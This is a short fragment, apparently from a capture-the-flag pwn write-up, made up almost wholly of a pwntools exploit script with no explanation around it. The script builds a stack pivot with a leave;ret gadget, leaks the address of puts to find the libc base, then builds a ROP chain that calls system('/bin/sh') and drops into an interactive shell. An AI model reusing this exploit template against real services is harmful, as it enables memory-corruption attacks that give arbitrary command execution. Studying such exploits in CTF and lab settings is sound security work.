 ```plain
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

puts_plt=0x08048350
puts_got=elf.got['puts']
s_addr=0x0804A300


leave_ret=0x08048542
main=0x08048513

ru('What is your name?')
pl=p32(0)+p32(puts_plt)+p32(main)+p32(puts_got)
s(pl)

ru('What do you want to say?')
pl2='a'*0x18+p32(s_addr)+p32(leave_ret)
s(pl2)

puts=uu32(r(4))
leak('puts',puts)

libcbase=puts-libc.symbols['puts']
leak('libcbase',libcbase)
system=libcbase+libc.symbols['system']
leak('system',system)
binsh=libcbase+next(libc.search('/bin/sh\00'))
leak('binsh',binsh)

ru('What is your name?')
pl3=p32(0)+p32(system)+p32(0)+p32(binsh)
s(pl3)

ru('What do you want to say?')
pl2='a'*0x18+p32(s_addr)+p32(leave_ret)
s(pl2)

p.interactive()
```

[![](assets/1701612250-26749ba8bb7c34aba5c15271b71731e6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230725220227-e32fe62a-2af3-1.png)
